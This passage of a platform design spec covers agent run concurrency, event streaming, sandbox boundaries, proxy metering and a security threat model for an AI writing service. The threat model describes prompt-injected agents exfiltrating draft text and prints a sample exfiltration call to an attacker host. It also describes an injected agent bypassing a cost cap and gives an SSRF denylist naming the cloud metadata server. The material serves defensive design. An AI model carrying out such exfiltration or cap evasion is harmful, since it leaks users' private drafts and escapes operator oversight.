**Concurrency** (REQ-RUN-17; REQ-DATA-39/40/41), enforced in Postgres: one writer-run per project (`projects.active_writer_run_id` conditional update; held across gates); reader runs bind to a hash and freeze that version; human edits to a reviewed draft always fork; persona runs lock the persona, not the project; plan concurrency (Free 0 / trial 1 / Writer 2 / Studio 5 / Studio Max 8 / Team 3 per seat) enforced at `queued → provisioning` with a visible queue position; pg-boss singleton keys prevent duplicate jobs. Lock keys: `draft:read:<id>` (shared), `draft:write:<id>` (exclusive; next id reserved at start), `head:<project>` (human; runs never touch the head), `corr:<draft>:<kind>:<k>` (so two review variants take k=1 and k=2 and run in parallel), `ns:write:agent:<seat>:<project>` (single writer per namespace), `persona:profile:write:<id>`. Permitted overlaps: review(vN) ∥ human working copy; review(vN, A) ∥ review(vN, B); review ∥ voice refresh (the review pinned its snapshot); Assistant ∥ anything; section drafts for disjoint sections.

**Steering** (REQ-RUN-18): guidance submitted while a phase runs is stored and injected into the next `PhaseRequest.inputs.guidance` (`guidance.queued`); the section-boundary delivery inside writing phases uses the SDK's streaming-input mode and is spiked before it is relied on (§16.3); in-phase redirection beyond that is not offered.

**Progress and ETA** (K4): `run_steps` accumulates `(duration, credits)` per `(workflow, step, rigor, model_tier, size_bucket)`; ETA per phase = p25–p75 of the last 50 comparable steps, shown as a range; until 50 samples exist the parametric model is used; the progress bar is orchestrator-driven.

### 12.5 Streaming events and the visibility split

```
run-task ──batched POST /internal/runs/:id/events──▶ api ──INSERT run_events (seq)──▶ Postgres
                                                        └──PUBLISH run:<id> {seq}──▶ Redis ──▶ every api task
client ──GET /runs/:id/events?after=<seq> (SSE)──▶ api: replay rows > after (visibility=user) then tail from Redis
```

SSE over HTTP/1.1 through the ALB (idle timeout raised; `: ping` every 25 s); `Last-Event-ID = seq`; reconnect replays `seq > last` exactly once; Redis carries only `{seq}` and is never a source of truth; `run-task` batches (≤250 or 2 s per run) and drops nothing (buffers to disk if the api is unreachable; >5,000 buffered events pause the engine); `visibility=user` rows live for the project's lifetime in daily partitions, `internal` rows 30 days in their own table (review 13 F32). Mobile polls the same endpoint (REQ-MOBILE-5). **REQ-ARCH-12.** The SSE route streams only `visibility=user` rows; CI asserts the mapper never emits an internal type as user. **REQ-ARCH-13.** Delivery p95 ≤ 2 s; no buffering on the route.

**The visibility rule:** a `user` event carries counts, identifiers, URLs, labels and template text — never prompt text, skill text, private-memory content, raw fetched page text, model thinking, or tool inputs other than URLs/paths. Payloads are typed per event with a whitelist validator; no free-text field exceeds 280 characters except `artifact.written.summary` (≤600, model-written from the artifact) (REQ-DATA-37). The catalogue (all `user` unless marked):

| Type | Payload | Density |
|---|---|---|
| `run.state_changed` · `run.started` · `run.resumed` · `run.hiccup` | `{from, to, reason?}` / model tier label, phase k/n | Summary |
| `step.started` / `step.finished` / `phase.skipped` | `{phase, ordinal, of, credits, durationMs, checks?}` | Summary |
| `gate.opened` / `gate.resolved` / `gate.expired` | `{kind, artifactVersionId, deadlineAt}` / `{action, by}` | Summary |
| `search.performed` | `{query, resultCount, agentLabel}` — the query is the agent's question, not our instruction; Verbose only, requester only | Verbose |
| `source.read` / `source.denied` | `{url (from the tool *result*), title?, status, bytes, agentLabel}` / `{urlDomain, reason}` | Normal |
| `claim.checked` / `claim.progress` | `{claimOrdinal, verdict, url?}` / `{checked, of, verified}` | Normal / Summary |
| `finding.emitted` | `{findingOrdinal, kind, severity, anchorHash}` | Normal |
| `section.drafted` | `{sectionRef, words, budget}` | Normal |
| `artifact.written` | `{kind, mirrorPath, versionId, words, summary?}` — H-kind writes emit `{kind:'private', namespace}` counts only | Normal |
| `subagent.started` / `subagent.finished` | `{label, inputs: 'explicit_files'\|'inherit', fileCount, model}` | Normal |
| `agent.note` | **template-generated** from tool activity (REQ-ARCH-14) | Normal |
| `boundary.denied` · `boundary.attested` | `{tool, pathClass}` · `{paths_touched_count, by_top_level, denied_count, violations, subagents, fetches}` | Normal / Summary |
| `usage.tick` · `cost.final` | `{spentCredits, capCredits, byPhase}` | Summary |
| `check.result` · `context.compacted` · `run.report` | `{name, passed, iteration, of}` · count · `{reportVersionId}` | Summary |
| `chat.turn.completed` · `guidance.captured` · `guidance.delivered` · `steer.paused` · `steer.queued` · `figure.rendered/proposed/accepted` | as named | Normal |
| `tool.audit` · `search.result` · `engine.error` · `egress.denied` · `boundary.violation` | full detail | **internal** |

Event mapping from SDK messages is a conformance suite with recorded fixtures (`packages/engine/mapper/`); `agent.note` text comes only from `packages/contracts/notes.ts` templates, so injected page content can never reach the user's screen through the feed (REQ-ARCH-14); `source.read` URLs come from the tool result, not the model's request (REQ-ARCH-15). State transitions are made only by the orchestrator in a transaction that also appends the event; the UI never infers state from events alone (REQ-DATA-33); viewers receive Summary density only (REQ-DATA-38).

### 12.6 Boundary enforcement: three concentric layers

The conventions' 21 normative rules become runtime mechanisms; the skills' attestation paragraph becomes data.

**Mount layer — what exists** (REQ-DATA-10; REQ-ARCH-16). Hydration materializes only the seat's allowlist; the project root *is* the allowlist, so recursive searches cannot inhale another seat's files:

| Seat | `/work/project` | `/work/personas/<id>` | Mode |
|---|---|---|---|
| Drafter (`author`) | `manifest.md`, `drafts/`, `assets/`, `correspondence/`, `agents/author/`, `preferences.md` (1.x pinned preference-profile snapshot; REQ-OBJ-10) | `PERSONA.md`, `profile/{index,voice-print,structure-repertoire,lexicon,exemplars,audience-and-venue,continuity}.md` (+ one member's voice files for composites, by `register`) | read-only bind mounts for everything but `agents/author/`; voice read-only |
| Editor | `manifest.md`, `drafts/`, `assets/`, `correspondence/`, `agents/editor/` — **never** `preferences.md` (REQ-OBJ-10) | `PERSONA.md`, `profile/{index,structure-repertoire,audience-and-venue,positions,continuity}.md` — **never** voice-print, lexicon, exemplars | as above |
| Persona builder | none | `PERSONA.md`, `docs/` (read-only), `profile/` (writable); hold-out notes absent until calibration | `docs/` never writable |
| Assistant | `manifest.md`, `drafts/`, `assets/`, `correspondence/`, `agents/assistant/`, `preferences.md` (1.x), plus the read-only Drafter paths of §7.1 (frozen ledgers only) | as Editor plus exemplars | — |
| System | none (the loop reads tables, never a mirror) | — | — |
| Input-scoped subagents | exactly the enumerated files, in a **private mount namespace** (`unshare -m` + a tmpfs bind-mount holding only those files, or a sidecar container) under a **distinct uid**, with `tools: ["Read"]` and **no Bash** | — | read-only; "the second read received the draft only" is a statement about the kernel, not the model (review 13 F13) |

**Tool layer — what the harness may do** (REQ-DATA-11/12/13; REQ-ARCH-17/18). A `PreToolUse` hook (matcher `Read|Write|Edit|MultiEdit|Glob|Grep|Bash|WebFetch|WebSearch`), running as uid `harness`, resolves every path (realpath, no symlinks or `..` escapes; Bash argv tokens included), classifies it against the seat's readable/writable globs, denies out-of-namespace reads and writes to read-only paths with a one-line reason, denies recursive operations over the root, checks URLs against the run's policy (hold-outs), rejects `Agent` in judge-class phases, and records an `access_log` row for every decision. Subagents inherit hooks (same process tree) and are attributed by `agent_id`. Three denials of one path abort the step as `failed(boundary)`; >20 denials in a phase trigger a `run.hiccup` and one guided retry. `disallowedTools` patterns are cosmetic (§12.2); the mounts, the uid split, the VPC and the per-run proxy credential are the enforcement. The hook package is the same code for every seat and engine; policy is data supplied per run. Every allowed and denied call is audited, append-only, 90 days — as a secondary *attempts* record, since the sandbox's own audit is not what the trust chip rests on.

**URL policy** (REQ-DATA-15/16 amended): per run `{deny: hold-out URLs and user-excluded sources; allow (calibrator only); global robots/paywall policy}`, applied in the hook, injected into server-tool request bodies at the proxy (`allowed_domains`/`blocked_domains`), and enforced in `fetcher`. Because Anthropic's server tools filter by **domain** and a hold-out usually shares its domain with the sampled corpus, **the persona builder and the calibrator route every fetch through the client-side `fetcher` tool under the hook, which enforces path-level policy**; server-side `web_fetch` is disabled for those seats. The hold-out leak audit (ledger J12) is a **hard delivery check**: any fetch-log URL matching a hold-out voids the calibration and the profile ships `calibrationStatus: 'untested'` with a flag (review 13 F15). Paywalled domains are reported as `source.denied`, never cookie-fetched. The fetch log of record is the **proxy's** request log (plus `fetcher`'s for client-tool fetches); it is the source for source cards and for cited ⇒ fetched.

**Input-scoped subagents** (REQ-DATA-17/18; REQ-ARCH-19 amended; ledger G18). Isolation is not enough; the second read must receive *only the draft*. The orchestrator — not the parent model — launches these as separate `query()` calls in a private mount namespace under a distinct uid with exactly the enumerated files and `tools: ["Read"]` (+ `fetcher` only where the skill grants it): second-reader → `[draft]`; fidelity-auditor → `[draft, commissioning brief, structure plan, claim ledger, voice brief, outline]`; gap-analyst → `[Editor's letter + dossier, guidance, response ledger, vN, v(N+1)]`; holdout-calibrator → `profile/*` + the hold-out URL allowed only after the prediction file is written; researcher fan-out → `inherit` with the seat's mounts and hook. Drafting is never fanned out: the Drafter has no drafting subagent and `Agent` calls are rejected during that step. Each scoped query's id is recorded as `producerQueryId` on the artifact version it writes.

**Write-back layer — what persists** (§12.2 commit step 2): even a Bash escape that touches local disk cannot reach canonical storage outside the write allowlist; immutable artifacts are refused at commit regardless.

**Attestation (REQ-DATA-19/20; REQ-ARCH-20 amended; REQ-SPEC-10).** The trust chip rests on **facts the sandbox cannot touch**: (1) the server-generated **hydration manifest** — which paths were mounted for which seat ("never mounted" is provable; "never read" is not); (2) the **proxy's request log** — every search and fetch that left the sandbox, with `run_id/attempt/agent_id` from the per-run credential; (3) the orchestrator's **subagent launch records** and `producerQueryId` checks. The in-container audit log is a fourth, secondary input reported as "attempts". At delivery the orchestrator builds `access_report` from these and emits `boundary.attested`; the UI renders "The Editor's sandbox never had the Drafter's notes mounted — verified by the hydration manifest and the proxy log · 52 URLs fetched · second read received the draft only". A report with denied attempts is still delivered but shows "1 blocked attempt" with the path class — honesty about attempts is the point. The skill's own attestation sentence is never parsed. Iteration caps are orchestrator budgets: audit ≤3, gap check ≤3, re-plan ≤2; exceeding one ends the step `completed_partial` with the artifact retained.

### 12.7 The meter of record and the two cross-checks

**REQ-SPEC-11 — the proxy is the meter of record and the cap's enforcer (review 13 F12).** In v1.0 the proxy injected the provider key for *any* request from the sandbox subnet, which made it an unmetered inference channel: a `node -e` from a prompt-injected Editor could reach `/v1/messages` directly, outside the SDK's `modelUsage`, outside the cap. Now: (1) the proxy presents the provider key only for requests carrying a valid **per-run proxy credential** (minted at provision, bound to the `harness` uid's SDK wrapper, rotated per attempt, revoked at terminal state) whose orchestrator-issued **allowlist** names the provider endpoints, models and URL policy that run may use — a request without the credential, or outside its allowlist, is refused with 403 and `egress.denied`; (2) the proxy reads every response's `usage` block — including `server_tool_use` (web search/fetch) and cache-write tokens, which `modelUsage` reports unevenly — tags it with `run_id / attempt / agent_id`, rates it under the run's versioned rate table (Sonnet 5 $2/$10, Opus 5 $5/$25, Fable 5 $10/$50 per MTok; cache read 0.1×, cache write 1.25×; web search $10/1k) × the 1.4 platform rate, and writes `usage_records{source:'proxy'}` — the rows that drive the run card, the debits and the margin report; (3) the proxy **enforces the cap**: when a run's Σ metered cost ≥ its cap the next request is rejected with 402, the engine sees `budget`, and the orchestrator opens `resume_partial`. SDK-internal calls (title generation, compaction) are metered like any other. The proxy injects the **direct Anthropic API key** (held in Secret Manager, read at start and on SIGHUP) per credentialed request; there is no SigV4/Marketplace path — the AWS-first design's M15 auth spike is moot after the 2026-09-02 move to GCP + the direct Anthropic API (see the §12 amendment banner). **Cross-check 1:** SDK `modelUsage` per phase → `usage_records{source:'sdk_estimate'}` and the streamed `usage.tick` rows (`sdk_stream`); a proxy-vs-SDK divergence > 2% on a run raises a flag. **Cross-check 2, the record of account:** the nightly `usage.reconcile` job matches provider Usage & Cost reports by request id, writes `provider_report` records, adjusts the ledger **only in the user's favour**, alerts at >2% drift, and recalibrates the estimator (REQ-ARCH-35 amended; REQ-BILL-13). Phase-0 exit requires proxy-metered cost = SDK-reported cost ± 2% on the three real projects (§17). Attribution: per run → step → seat → agent instance → subagent (`parent_tool_use_id`) → model; gross margin per run = credits × $0.01 − list cost − amortized infra, by workflow × tier × rigor.

### 12.8 Security threat model

> **Amended 2026-09-30 (REQ-SPEC-31, ADR-015):** research-bearing runs preflight their server web tools before any debit; a Review with zero successful fetches delivers *Unverified* with its research phases refunded. Path B (ADR-006) is unchanged for partial gaps. See the Appendix A.9 note.

> **⚑ Amendment — 2026-10-20 (ADR-112; operator ruling `GD-PEN.R6b`, superseding `GD-PEN.R6`):
> the external pen test is a dated post-launch obligation; the launch gated on an in-round
> adversarial security review instead.** P1.22's "the engagement is launch-blocking on criticals"
> rule is amended: the external engagement must complete **≤ 60 days after launch**
> (`D-P1.22-3` — launch + 60 d ≈ 2026-12-28; owner: the operator — procurement), with
> criticals/highs hotfixed under the standard triage runbook. In its place the round-6 pre-launch
> adversarial review (REQ-SEC-3) gated `GATE-LAUNCH` at **zero open criticals/highs** — the code
> read against the controls list in `docs/security/pen-test-scope.md` plus live probes on the
> deployed tip under `is_test` tenants: 178 live tenancy/authz legs executed, the CRITICAL
> `F-R6SECR.1-1` found + fixed + deployed before launch, HSTS finding `F-R6SECR.1-2` likewise.
> **Honesty clause:** the review is *not independent* — it is the same model family that wrote
> the code; launch copy and the security posture page make no third-party-testing claim until the
> external engagement reports. A confirmed cross-tenant read on prod is a breach under
> `GD-EXPOSURE.R6` and expedites the engagement. The §12.8 controls' own live-exercise legs
> (planted hostile fixtures on the deployed tip) carry as `D-R6SECR.1-1`.

Rhema's Editor holds all three legs of the lethal trifecta — private drafts, untrusted web content, an outbound channel. The design narrows the third leg but, stated honestly, does not remove it (review 13 F16): the model talks only to the inference endpoint through the proxy, and the allowlisted write-back is the only way data reaches the user's project — but **search queries and fetch URLs are an outbound channel** through Anthropic's server tools (`web_search("<300 chars of the draft>")`, `web_fetch("https://attacker.example/?d=<base64>")`), and the user's own upload of a hostile draft is an input the Editor must read. Mitigations, stated accurately (REQ-ARCH-21 amended; REQ-SPEC-25):

- **(a) Server tools are not summarizers.** Anthropic's `web_search` returns result content into context and `web_fetch` returns the page as a document block — full text, not a summary, and not wrapped by `fetcher`. The v1.0 text overstated this (review 13 F40). At **Full board, all Editor fetches route through the client-side `fetcher` tool** so untrusted-document wrapping and per-URL policy apply uniformly (the cost is latency, not capability); at Quick/Standard, server tools are used with the checks below.
- **(b) Untrusted wrapping** for every `fetcher`-supplied page (`<document trust="untrusted">`) and for chat attachments — a soft control.
- **(c) Model-independent verdict checks.** A `verified` or `contradicted` Tier-1 verdict must cite a URL whose registrable domain either matches the claim's own citation, is on a curated reputable-source list, or was reached from a search result (not from a link inside a fetched page); otherwise the verdict is **downgraded to `unverifiable`** with `sourceCheck: 'suspicious_source'` at commit. Schema validation of findings, verdicts and source notes at commit.
- **(d) Outbound-channel limits at the proxy:** `web_fetch` query strings longer than 256 characters are stripped or refused; a per-run cap on distinct fetched registrable domains not present in the claim ledger or a search result; `search.performed` queries are diffed against draft n-grams and a match ≥ 12 words raises `suspicious_query`, pauses the run, and opens a refusal-class card.
- **(e) The input-scoped second read** never sees fetched pages, so at least one judgment per full review is uncontaminated; subagent outputs are read from files, not tool-result strings.
- **(f) Privilege separation and the per-run proxy credential** (REQ-SPEC-10/11) mean a shell escape cannot forge audit rows, fetch-log rows or events, and cannot spend outside the meter.

Residual risk — an injected Editor exfiltrating fragments of an unpublished draft through a few dozen short search queries — remains and is stated in the privacy sentence of §14.7. An `egress.denied` spike or a `suspicious_query` for one run pauses it (REQ-ARCH-32).

### 12.9 Migration path: own more of the boundary, never the loop

| Stage | What changes | Trigger |
|---|---|---|
| **1 (MVP)** — phase-split hybrid on the self-hosted SDK | this section | — |
| 2 — provider-neutral judge/generate phases | `packages/harness` lite loop bound to the same hook policy; Vertex AI on the proxy allowlist | evals show quality holds on a second provider; demand for model choice |
| 3 — concurrent phase graphs on self-hosted Temporal (MIT) | worker becomes a Temporal worker; step handlers unchanged (already idempotent activities keyed `(run_id, step_key, attempt)`) | the first non-linear step graph: Run rounds, parallel variants, parallel Review phases 1/2/5, Map-the-field fan-out |
| 4 — artifact-store tool surface | MCP `read_artifact`/`write_artifact` server with seat scoping over S3; mounts and write-back become redundant | multi-host resume, sharing, audit demands outgrow the mirror |
| 5 — engine choice revisited | `ManagedAgentsEngine` on our GKE sandboxes; `AgentSdkEngine` retained | Managed Agents exits beta with ZDR on self-hosted sandboxes |
| Spike (ledger G19) | microVMs (Firecracker / gVisor-off nodes) vs GKE for start latency and isolation | queued→running p95 misses 45 s, or per-session microVM isolation becomes a sales requirement |

Rejected for stage 1: Managed Agents as primary (beta; not ZDR-eligible; hooks and routing need us to own the container); OpenAI Agents/Codex (no filesystem/skills harness); Vercel AI SDK hand-roll (the research loop becomes our code); LangGraph/Mastra/AgentKit (orchestration, not harness); Temporal/Inngest/Restate/Step Functions now (cannot checkpoint inside a harness session; Inngest SSPL and Restate BSL fail the licence policy). Recorded tensions: Q-3 cloud choice vs Anthropic web tools → the **direct Anthropic API** (platform-billed) reached through the proxy; GCP's Vertex Claude, like Bedrock, lacks the web tools and is 1.x-only (the AWS-first design and its M15 SigV4 spike are superseded by the 2026-09-02 move to GCP + direct Anthropic API; the proxy always injects the direct key); Q-19 vs orchestration licences → pg-boss now, Temporal later; Q-7 gates vs idle sandboxes → the task exits at gates.

### 12.10 Guarantee preservation: what the port keeps from the source conventions

The `~/agent-discourse` conventions state guarantees in prose; the port must keep or consciously replace each (review 13 §9). This table is the checklist the Phase-0 exit criterion reads.

| Convention guarantee | Preserved? | How, in this spec |
|---|---|---|
| Allowlist discipline; no recursive search over the root | **Yes, strengthened** — the mount *is* the allowlist | §12.6 mount layer; read-only bind mounts; hash check at harvest |
| Own-namespace only; the Editor never reads the Drafter's notebook | **Yes by mount**; attestation now derived from the hydration manifest and proxy log, not from a sandbox-writable audit | §12.6 attestation; REQ-SPEC-10. Assistant ↔ Drafter notebook is a declared departure (R9, C1), narrowed to frozen ledgers (F19) |
| Editor never loads `voice-print` / `lexicon` / `exemplars` | **Yes** | §12.6 seat table; composites give the Editor the union of `positions`/`continuity` only |
| Subagents told the allowed-path set verbatim | **Yes** (REQ-DATA-13) | redundant with mounts; harmless |
| Attest at delivery | **Replaced by a runtime report** built from server-side facts | §12.6; the skill's own attestation sentence is never parsed |
| Delivered artifacts immutable; `vN` immutable once reviewed | **Yes, stricter** — freeze at first run-read | §11.6; DB trigger + content addressing |
| Never persist raw fetched pages | **No** — SDK transcripts retained 30 days (H-class, support-only) | declared departure C10, §16.2 |
| Hold-out never fetched | **Yes at URL level** — builder/calibrator fetch only via the client-side `fetcher`; leak audit voids calibration | §12.6 URL policy (F15) |
| Precedence guidance > charter > persona > default | **Preserved as skill behaviour**; charter edited only via guidance | §6.5, §8.3 |
| Composite = union, one member for voice, register declared | **Preserved** (`register` input; the member's voice files mounted) | §9.6, §12.6 |
| "Never block on a missing persona" | **Preserved** (ad-hoc voice) | §9.6 |
| Mode governs permitted use | **Removed by Q-11** (metadata only) | §9.2; REQ-ARCH-8 |
| Files are the only inter-phase interface | **Preserved, extended** — structured sidecars and gate overlays are files too | §11.1, §11.5 (REQ-SPEC-9/12) |
| "Read from disk, never from memory" after a reset | **Preserved across resumes** (fresh task, re-materialized); **restored across compactions** by the `PreCompact` re-read hook | §7.1, §12.4 |

---

## 13. Platform, infrastructure, security, and operations

### 13.1 Stack

TypeScript end-to-end (Q-3; no Python — the one flagged exception, a Docling PDF sidecar, is a v2 option run only as an isolated HTTP service). **Web:** React Router framework mode (SSR) on Cloud Run; Next.js rejected for its self-hosting tax. **API:** Hono on Cloud Run. **Data:** AlloyDB for PostgreSQL (a **minimum-size primary kept warm in prod** — a cold start would time out the first burst, review 13 F32; small or paused Cloud SQL/AlloyDB instances for previews) + GCS. **Queue:** pg-boss (MIT). **Realtime:** SSE + Redis pub/sub (heartbeats in Redis); Hocuspocus (MIT) for collaboration. **Auth:** Better Auth, self-hosted in our Postgres; Google + magic link at launch, Apple with the mobile app, **passkeys in 1.1** (matrix row 77), WorkOS SSO later (Clerk rejected at ≈$19k/mo at 1M MAU; Identity Platform on DX; Supabase Auth on coupling). **Email:** Resend (a third-party email API; SES has no first-party GCP equivalent — recorded in `LICENSES.md`; Postmark is the swap). **Billing:** Stripe Billing/Checkout/Portal/Tax with an owned Postgres credit ledger and balances table (Stripe Meters, Metronome and Orb rejected; Lago is the self-host fallback). **Editor:** Tiptap MIT core on ProseMirror over a schema-first Rhema Markdown profile; at MVP findings as sidecar decorations, a proposal card, and a server-side read-only compare; in-house comments (quote re-anchoring with Yjs relative positions as projections), suggestion mode (marks) and in-editor compare (`prosemirror-changeset`) in 1.x (review 13 F46); Yjs + y-indexeddb + self-hosted Hocuspocus, single-user at MVP (the Redis scaling extension arrives with sharing roles) (Liveblocks, Tiptap Cloud, PartyKit rejected on cost-at-scale, lock-in, or non-GCP hosting). **Export:** pandoc 3.10 + Typst in an isolated container. **Figures:** Vega-Lite + beautiful-mermaid in pure Node (beautiful-mermaid's licence is **unverified** — §16.3 #22; fallback is a Mermaid CLI in the render worker). **Mobile:** Expo/React Native. Build: pnpm + Turborepo (not Bazel, but with Bazel-compatible invariants: explicit per-package dependencies, project references, no cross-package relative imports); Pulumi (TypeScript) stacks.

> **⚑ Amendment — 2026-09-17: the production database engine is Cloud SQL for PostgreSQL, not
> AlloyDB.** The operator's ~$50/mo prod infrastructure budget cannot carry AlloyDB's ~$270/mo
> minimum warm primary, and §12's provider table already called Cloud SQL "the simpler swap." Every
> production-scoped AlloyDB assertion in this document is superseded accordingly: the §13.1 stack
> bullet's "**AlloyDB** for PostgreSQL (a minimum-size primary kept warm **in prod**)" and the §13.2
> stages line's bare "`prod`" become **Cloud SQL for PostgreSQL 16 — a `db-g1-small` shared-core
> primary kept warm (zonal, private-IP)** on prod, while `dev` (the already-live substrate) and the
> `pr-<n>` preview shape keep AlloyDB — the preview line's "a small/paused AlloyDB **or Cloud SQL**
> instance" already licensed either engine. The F32 cold-start rationale is unchanged in substance —
> prod's database still stays up; a `db-g1-small` simply makes staying up affordable (`db-f1-micro`
> is the absolute floor but too thin to call prod-ready). Same-day companion amendments to prod's
> cost posture: the run-task GKE cluster is **zonal** Standard (not regional) with **one on-demand
> e2-medium** node (Spot stays off by default — run pods must not be preempted), the egress-proxy
> MIG shrinks to **one** instance (fail-closed: a dead proxy loses egress, never leaks it), and
> Memorystore Redis drops to the smallest **BASIC** tier. Recorded as ADR-010; implemented in
> `infra/config/stages.ts` + `infra/pulumi/data.ts` (PRB.15). The §13.3 backups claim is amended
> by the banner below it.

> **⚑ Supersession note — 2026-10-10 (round-4 SPA build, SPAREC.2): the §13.1 "**Web:** React
> Router framework mode (SSR)" and "**Editor:** Tiptap MIT core" descriptions are superseded in
> practice.** The landed web tier is Hono SSR + esbuild islands (ADR-012, as-built since P1.01)
> extended in round 4 by a Vite-built **TanStack Router + Query SPA** for the authenticated
> app — canonical contract `docs/frontend-spa-spec.md` v1.1 (ADR-106; public/marketing/login
> stay Hono SSR). The landed Page editor is a **hand-rolled ProseMirror mount** — no TipTap
> layer (the SPA spec §6 rejects TipTap; the schema-first Rhema Markdown profile, Yjs +
> y-indexeddb + self-hosted Hocuspocus collab, findings-as-decorations, and proposal card all
> landed as specified). §17's beta-path "CodeMirror editing survives as 1.x Source mode"
> shipped early as a designed feature — REQ-ED-17's plain-text CodeMirror 6 source view on the
> SPA mount (SPA.25; design/30). No runtime renderer flags exist post-migration
> (frontend-spa-spec §14).
>
> **⚑ Supersession addendum — 2026-10-17 (round-5, R5REC.2):** the SPA's intra-app
> navigation is client-side by interception — one delegated `document`-level `click`
> listener with an ordered skip-list (the settled mechanism, `ADR-110`; the defect record
> + mechanism amendment are frontend-spa-spec §14.18/§14.19 — v1.2). Renderer verdicts
> stay server-owned in both directions: the interceptor never consults the boot
> `surfaces` map or `twinForcesSsr`; forced-SSR arms still hand off through
> `SsrHandoff` (now replace-mode).

Build-vs-buy rule (ledger M8): GCP-native or self-hosted MIT/Apache over third-party SaaS wherever the SaaS is expensive at scale or constrains control; the recorded exceptions, complete (review 13 F49): Stripe (money movement); Resend (transactional email); Expo Push (direct FCM/APNs as the swap) **and EAS Build/Update** (a paid build pipeline; self-hosted `expo run` builds are the swap); Turborepo remote cache (self-hosted on GCS, not Vercel-hosted); Google Fonts on the marketing site; Cloud Document AI (GCP, for scanned-PDF OCR); and the **Claude Agent SDK itself** — a proprietary dependency the whole run model depends on, the largest control concession in the design, mitigated by the `Engine` abstraction (REQ-ARCH-7) and listed in `LICENSES.md`.

### 13.2 Repository and environments

```
apps/web · apps/api · apps/collab · apps/worker · apps/run-task · apps/fetcher · apps/convert · apps/egress-proxy · apps/export · apps/mobile
packages/contracts (zod: API, events, artifact kinds, sidecar schemas, note templates) · packages/db (Drizzle, migrations, RLS wrapper) · packages/engine
packages/hooks · packages/harness · packages/protocols (committed member; manifests, skills, parsers, serializers) · packages/protocols-stub (open-source-export fallback, `@rhema/protocols-stub`)
packages/measure · packages/figures · packages/ui · packages/api-client · packages/tokens · packages/findings-core · packages/markdown-view
infra/ (Pulumi index.ts, stacks, GCP IAM/service-accounts as code) · evals/ (PRIVATE fixtures + scorers + nightly runner) · evals-stub/ (public)
```

Stages: `dev` (shared integration; nightly evals; seeded fixtures), `pr-<n>` (per-PR preview; a small/paused AlloyDB or Cloud SQL instance; isolated GCS buckets; Base tier only; `max_usd` $3/run; never production secrets or user-text fixtures — REQ-ARCH-38), `prod`. Local dev (`pulumi preview` + Docker Compose) runs services against a local Postgres; the sandbox can be exercised locally via Docker with the proxy on a dev Anthropic key.

CI/CD (GitHub Actions): typecheck/lint/unit per package (Turborepo remote cache) → `contracts` (mapper conformance, hook policy tests, artifact schema tests, markdown round-trip golden corpus) → `integration` (api + worker against a preview AlloyDB/Cloud SQL with a `FakeEngine` replaying recorded fixtures: gates, orphan resume, cancel, cap exhaustion, stale task — ledger G21) → `images` (build and scan run-task, export, fetcher, egress-proxy; pin digests) → `public-safe` (gitleaks; no protocol markers in client bundles or OpenAPI; licence allowlist MIT/Apache-2.0/BSD/ISC — SSPL/BSL/AGPL fail — plus a **checked-in exception list with a rationale per package**: `@anthropic-ai/claude-agent-sdk` (commercial terms; the harness), pandoc (GPL-2, separate process), the font files; an allowlist without an exception list dies by undocumented exceptions — review 13 F48) → `smoke-eval` on protocol/engine/hook/routing changes (2k-word excerpt at Quick on Sonnet) → deploy (Cloud Run / GKE rolling with version-skew handling; run pods pin the image digest so an in-flight run never changes harness; backward-compatible migrations for one release). **REQ-ARCH-39.** Every deploy records `{git_sha, image_digests, protocols_version, rate_table_version}`; every run records the digests it ran on, so any artifact traces to the exact harness and skill text. **REQ-ARCH-40.** The licence policy is a checked-in document enforced by CI. **REQ-ARCH-36.** Changes to protocols, engine, hooks or routing must pass the per-PR smoke and the latest nightly golden run.

Open-source-ready hygiene (Q-19): `packages/protocols` and `evals/` live in a **separate private repository resolved by path**, never as git submodules — a public clone with submodule pointers to private commits fails at `git submodule update` and nobody can build (review 13 F48). A pnpm workspace alias resolves `@rhema/protocols` to `packages/protocols` when the private checkout is present and to `packages/protocols-stub` (public; the manifests' types, a fixture skill, no rubric text) otherwise, so a public clone builds with stubs by default and the `public-safe` job builds exactly that way (REQ-ARCH-37 amended). **[Amended 2026-09-01:** `packages/protocols` is now a **committed workspace member** — the repo is private, so the protocol IP lives in its history; open-source-readiness becomes an **export-time swap** (drop `packages/protocols`, rename `@rhema/protocols-stub` → `@rhema/protocols`) rather than a live path resolution, the `public-safe` job builds `@rhema/protocols-stub` to prove that fallback compiles, and the ported skills are drift-checked against the vendored pin `packages/protocols/upstream-pin/` (REQ-ARCH-5). `@rhema/evals` remains path-resolved via `RHEMA_EVALS_PATH`.**]** **[Amended 2026-11-03 (operator ruling 2026-11-02, R6OSS.1; REQ-ARCH-37 re-amended):** the export-time swap is **retired** — `packages/protocols` stays **public** in the repository and its history; the public shape is a GitHub visibility flip with no export. `packages/protocols-stub` is retained as a dormant fallback shim (ADR-002 amendment; ADR-125); `@rhema/evals` remains private and path-resolved via `RHEMA_EVALS_PATH`. Because the flip publishes every commit, open-source-readiness becomes a **full-history audit** (`docs/ops/open-source-readiness.md`), not a tip-tree export.**]** MIT licence file, `SECURITY.md`, `CONTRIBUTING.md`, `LICENSES.md` (including the SDK's commercial terms and the "hosted under our brand, never 'Claude Code'" rule) written as if public; no user text in commit history; secrets only via Secret Manager.

### 13.3 Security, tenancy, retention, secrets

- **SSRF and conversion** (REQ-ARCH-22/23/24 amended; review 13 F41/F43): `fetcher` enforces http(s) only; DNS-then-IP denylist (RFC1918, loopback, link-local incl. the **GCP metadata server** `metadata.google.internal` / `169.254.169.254`, CGNAT, ULA) pinned across ≤5 redirects; 25 MB cap; 20 s budget; content-type allowlist; robots honored; ≤1 req/s per host; a **service account** limited to the quarantine prefix; the metadata server is additionally unreachable from the sandbox (no route) and would require `Metadata-Flavor: Google`; **it parses nothing**. **Conversion runs only in `convert`** — a Cloud Run Job with no network route, no database access, a memory cap and a decompression-ratio limit (docx/epub are zips; pdf.js has had arbitrary-JS CVEs) — reading quarantine bytes and writing canonical markdown; never in `api`, never in `fetcher`. Uploads go to a quarantine prefix via presigned PUT with size conditions (the `Content-Type` of a presigned PUT is client-asserted and is **sniffed at conversion**, never trusted) and are served only from a **separate registrable domain** (`*.rhemausercontent.com`, not a path or subdomain of `rhema.app`) that sets no cookies, with `Content-Disposition: attachment` and `Content-Type: application/octet-stream` for everything not on a rendered allowlist.

> **⚑ Amendment — 2026-09-17: the production domain is `rhema.tools` (one zone).** The operator
> controls `rhema.tools` only — `rhema.app` and `rhemausercontent.com` are not available. Every
> reference to them in this document (the SSRF bullet above, the universal-link fallback
> `https://rhema.app/p/…`, and the Phase-0a accounts row) is superseded: the app serves the
